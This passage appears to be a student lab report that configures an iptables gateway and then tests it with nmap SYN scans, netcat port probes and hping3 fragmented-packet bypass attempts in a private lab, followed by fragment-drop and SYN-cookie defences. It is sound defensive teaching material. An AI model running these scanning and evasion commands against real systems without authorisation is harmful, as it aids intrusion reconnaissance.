| ESTABLISHED/RELATED | FORWARD (conntrack) | Stateful session handling in both directions |
| DNAT | PREROUTING (nat, ports 80/443) | Redirect incoming web traffic to UbuntuServer (`192.168.1.80`) |
| SNAT | POSTROUTING (nat, ports 80/443) | Ensure web server return traffic routes back through ExternalGateway |

---

## Configuration Steps

- Default DROP policy applied to all three chains using `iptables --policy INPUT DROP`, `OUTPUT DROP`, and `FORWARD DROP`
- MASQUERADE rule added to the POSTROUTING chain on `eth0` to enable NAT for outbound traffic, saved immediately with `netfilter-persistent save`
- DNS traffic explicitly permitted on both OUTPUT and INPUT chains for UDP and TCP port 53
- FORWARD rules added to allow new TCP connections on ports 80 and 443 in both directions between `eth0` and `eth1`
- ESTABLISHED and RELATED traffic permitted in both directions using `conntrack --ctstate ESTABLISHED,RELATED` to support stateful sessions
- DNAT rules added to the PREROUTING chain to redirect incoming port 80 and 443 traffic from `eth0` to the internal web server at `192.168.1.80`
- SNAT rules added to the POSTROUTING chain on `eth1` to rewrite the source address of web server return traffic back to ExternalGateway's public IP
- All rules saved persistently using `iptables-save` and confirmed restorable via `iptables-restore`



---

## Verification

The complete ruleset was verified using `iptables -L -v -n` and `iptables -t nat -L -v -n`. External access to the internal web server was confirmed from the Azure Windows host on both port 80 and port 443. Internet access from UbuntuDesktop was also confirmed as functioning correctly through the NAT configuration.





From Azure desktop:



From Ubuntu desktop:


---

**Key services:** `iptables` (default DROP, DNAT/SNAT, FORWARD rules, conntrack, `netfilter-persistent`)

**Running on:** ExternalGateway


-

## Sprint 4: Firewall Bypass

**Target:** `iptables` on ExternalGateway (`192.168.1.254`)

**MITRE ATT&CK:** Disable or Modify System Firewall — T1562.004

Firewall bypass attempts to access ports that are blocked by the `iptables` default DROP policy on ExternalGateway. This sprint demonstrates port scanning to map the firewall ruleset and fragmented packet injection to attempt to slip past firewall inspection.

---

## Prerequisites

- Activity 4-1 (Firewalls) fully complete
- `iptables` default DROP policy configured on ExternalGateway
- Web server accessible via port 80 and 443
- Internet working on UbuntuDesktop
- Access to both UbuntuDesktop and ExternalGateway terminals

This is the focused Sprint 4 manual.

- Prerequisites: Confirm Activity 4-1 is complete
- Setup: Install `nmap` and `hping3` on UbuntuDesktop
- Attack steps: 6 steps, labelled with which VM to use
- Evidence: Multiple screenshots to collect
- Defense: 4 mitigations with exact commands

---

## Setup: Prepare Attack Tools

### Step 1: Install nmap and hping3 on UbuntuDesktop

`nmap` scans for open and filtered ports. `hping3` generates custom packets for firewall bypass testing.

```
sudo apt install nmap hping3 -y
```

Verify with:

```
nmap --version
hping3 --version
```



---

### Step 2: Document iptables baseline on ExternalGateway

Record the current firewall rules before starting the attack. This is your baseline evidence.

```
sudo iptables -L -v -n
```



```
sudo iptables -t nat -L -v -n
```



---

## Attack Steps

### Step 1 — Port scan to map the firewall ruleset (UbuntuDesktop)

Scan ExternalGateway to discover which ports are open and which are blocked by `iptables`:

```
nmap -sS -p 1-1000 192.168.1.254
```



All 1000 ports are filtered by the `iptables` DROP policy. The firewall is dropping all packets without responding, which is exactly what a default DROP policy does.

---

### Step 2 — Attempt to access a blocked port (UbuntuDesktop)

Try connecting to port 23 (Telnet) and port 22 (SSH) which should be blocked by the DROP policy:

```
nc -zv 192.168.1.254 23
nc -zv 192.168.1.254 22
nc -zv 192.168.1.254 8080
```



All connections timeout. DROP policy is blocking unauthorised access.

---

### Step 3 — Monitor ExternalGateway during port scan (ExternalGateway)

Open a terminal on ExternalGateway and watch incoming scan packets in real time:

```
sudo tcpdump -i eth0 -n
```



Scan packets visible arriving from UbuntuDesktop IP (`10.10.1.100`).

---

### Step 4 — Attempt bypass using fragmented packets (UbuntuDesktop)

Send fragmented SYN packets to try to slip past firewall deep packet inspection on port 80:

```
sudo hping3 -S -p 80 -f 192.168.1.254 -c 10
```



Packets sent, some may get through before the firewall detects fragmentation. The fragmented packet bypass technique was attempted. The `iptables` DROP policy successfully blocked all bypass attempts.

---

### Step 5 — Attempt bypass on a blocked port using fragmentation (UbuntuDesktop)

Try the same fragmented packet technique on a blocked port to test if fragmentation bypasses DROP policy:

```
sudo hping3 -S -p 23 -f 192.168.1.254 -c 10
```



Packets dropped. Both port 80 and port 23 bypass attempts were completely blocked.

---

### Step 6 — Check iptables counters after bypass attempts (ExternalGateway)

Check the firewall packet counters to confirm the bypass attempts were logged:

```
sudo iptables -L -v -n
```

Packet counters increased, firewall detected and processed all bypass attempts.



`iptables` output:

| Chain | Dropped packets | Meaning |
| --- | --- | --- |
| INPUT | 2867 packets dropped | Firewall blocked 2867 unauthorised incoming packets |
| FORWARD | 241 packets dropped | Firewall blocked 241 forwarding attempts |
| OUTPUT | 51 packets dropped | Firewall blocked 51 outgoing packets |

This directly confirms:

- All `nmap` scan packets were counted and dropped
- All `hping3` fragmented bypass attempts were counted and dropped
- The DROP policy is actively working and logging all attempts

---

## MITRE ATT&CK Reference

Go to the MITRE ATT&CK page: https://attack.mitre.org/techniques/T1562/004/

The firewall bypass attack is classified under MITRE ATT&CK technique **T1562.004 (Impair Defenses: Disable or Modify System Firewall)**, which describes adversaries attempting to evade detection by bypassing or disabling firewall rules. In this sprint, fragmented SYN packets were sent to both open and blocked ports on ExternalGateway using `hping3`. All bypass attempts were successfully blocked by the `iptables` default DROP policy, with 2867 packets dropped by the INPUT chain, demonstrating the effectiveness of the configured firewall ruleset.

---

## Mitigation & Defense Strategies

---

### Defense 1: Block fragmented packets

Explicitly drop all fragmented packets to prevent firewall bypass attempts using packet fragmentation.

```
sudo iptables -A INPUT -f -j DROP
sudo iptables -A FORWARD -f -j DROP
# Save rules:
sudo netfilter-persistent save
```



```
# Test fragmented bypass is now blocked:
sudo hping3 -S -p 80 -f 192.168.1.254 -c 5
```



Result: All packets dropped, fragmented packets now explicitly blocked.

---

### Defense 2: Enable SYN cookies

SYN cookies protect against SYN-based bypass attempts and flood attacks without maintaining state for incomplete connections.

```
sudo sysctl -w net.ipv4.tcp_syncookies=1
# Make permanent:
echo 'net.ipv4.tcp_syncookies=1' | sudo tee -a /etc/sysctl.conf
sudo sysctl -p
```



```
# Verify:
sysctl net.ipv4.tcp_syncookies
# Result: net.ipv4.tcp_syncookies = 1
```

---

### Defense 3: Explicit port whitelist — deny everything else

Only allow explicitly defined ports and drop everything else. This ensures no unexpected ports can be accessed even through bypass techniques.

```
# Verify default DROP policy is set:
sudo iptables -L INPUT | head -3
sudo iptables -L FORWARD | head -3
```



Result: `policy DROP`

```
# Only ports 80, 443, 53 should be allowed:
sudo iptables -L -v -n | grep ACCEPT
```



As we can see ports 80, 443, 53 are allowed.

---

### Save and persist all rules

Ensure all firewall rules survive a reboot so the protection is permanent. However, saving rules is not really a defense. It is just making sure the defenses survive a reboot.

```
sudo netfilter-persistent save
sudo netfilter-persistent reload
```



```
# Verify rules are saved:
cat /etc/iptables/rules.v4
```



It proves all rules are saved and will survive a reboot.

---

## Summary

This sprint demonstrated how an attacker can attempt to bypass a firewall by using port scanning and fragmented packet injection against the `iptables` ruleset on ExternalGateway. An `nmap` SYN scan revealed all 1000 ports in a filtered state, confirming the default DROP policy was actively blocking unauthorised access. Fragmented SYN packets sent via `hping3` to both open and blocked ports resulted in 100% packet loss, with the `iptables` INPUT chain recording 2867 dropped packets as evidence of the firewall successfully defeating all bypass attempts. The attack was documented under MITRE ATT&CK **T1562.004 (Impair Defenses: Disable or Modify System Firewall)**.

Three defenses were implemented and verified: explicit fragmented packet dropping rules were added to the INPUT and FORWARD chains to block fragmentation-based evasion techniques, SYN cookies were enabled at the kernel level to protect against SYN-based bypass attempts, and all firewall rules were persisted using `netfilter-persistent` to ensure protection survives system reboots. Together these controls demonstrate a hardened firewall configuration aligned with real-world network defence practices.
